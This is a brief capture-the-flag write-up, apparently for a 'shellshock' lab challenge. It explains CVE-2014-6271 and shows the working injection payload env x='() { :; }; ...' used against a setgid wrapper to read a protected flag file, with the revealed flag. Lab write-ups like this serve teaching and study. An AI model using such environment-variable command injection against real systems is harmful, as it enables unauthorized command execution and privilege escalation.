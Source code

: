 # shellshock

The home folder of this challenge contains the following:

```
shellshock@ubuntu:~$ ls -l
total 960
-r-xr-xr-x 1 root shellshock     959120 Oct 12  2014 bash
-r--r----- 1 root shellshock_pwn     47 Oct 12  2014 flag
-r-xr-sr-x 1 root shellshock_pwn   8547 Oct 12  2014 shellshock
-r--r--r-- 1 root root              188 Oct 12  2014 shellshock.c
```

### shellshock.c

```
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}
```

Shellshock is a vulnerability in bash, where bash incorrectly exectutes trailing commands when it imports a function definition stored into an environment variable.

This is how shellshock works:

```
$ env x='() { :; }; echo pwned' bash -c echo real program
  ^^^^^^^^^^^^^^^^^                                  Command to set the environment variable
                   ^^^^^^^^^^^^                      The arbitrary command which will executed by bash
                               ^^^^^^^^^^^^^^^^^^^^  Real command
```

If the bash is vulnerable for shellshock, the arbitrary command that is set in the environment variable will be executed (with the privileges of the bash user) before executing the real command.

```
shellshock@ubuntu:~$ which cat
/bin/cat
shellshock@ubuntu:~$ env x='() { :; }; /bin/cat flag' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault
```
